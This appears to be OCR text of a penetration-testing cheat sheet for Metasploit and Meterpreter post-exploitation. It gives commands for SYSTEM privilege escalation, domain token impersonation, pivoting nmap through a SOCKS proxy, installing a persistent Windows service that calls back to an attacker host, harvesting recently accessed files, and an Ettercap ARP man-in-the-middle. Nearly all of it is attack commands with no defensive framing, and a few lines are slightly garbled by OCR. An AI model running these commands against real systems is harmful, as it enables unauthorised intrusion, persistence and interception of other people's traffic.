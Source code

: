
PRIVILEGE ESCALATION

use priv 
getsystem


IMPERSONATE TOKEN (DROP TOKEN WILL STOP IMPERSONATING)

use incognito 
list_tokens -u
impersonate_token domain\\user


NMAP THROUGH METERPRETER SOCKS PROXY
1.	msf sessions	# Note Meterpreter ID
2.	msf route add 3.3.3.0 255.255.255.0 id
3.	msf use auxiliary/server/socks4a
4.	msf run
5.	Open new shell and edit /etc/proxychains.conf
	 i. #proxy_dns
	 ii. #socks4 127.0.0.1	9050
	iii. socks4 1.1.1.1 1080
6.	Save and Close conf file
7.	proxychains nmap -sT -Pn -p80,135,445 3.3.3.3


RAILGUN - WINDOWS API CALLS TO POP A MESSAGE BOX

meterpreter irb
   client.railgun.user32.MessageBoxA(0,"got","you","MB_OK")


CREATE PERSISTENT WINDOWS SERVICE

msf use post/windows/manage/persistence
msf set LHOST -attack ip
msf set LPORT -callback port
msf set PAYLOAD_TYPE TCP|HTTP|HTPS
msf set REXENAME filename
msf set SESSION meterpreter session id
msf set STARTUP SERVICE


GATHER RECENTLY ACCESSED FILES AND WEB LINKS

meterpreter run post/windows/gather/dumplinks


SPAWN NEW PROCESS AND TREE C:\

execute -H -f cmd.exe -a '/c tree /F /A c:\	C:\temp\tree.txt'


ETTERCAP


MAN-IN-THE-MIDDLE WITH FILTER

ettercap.exe -I iface -M arp -Tq -F file.ef MACs / IPs / Ports
MACs / IPs / Ports
#i.e. : //80,443 // = any MAC, any IP, ports 80,443
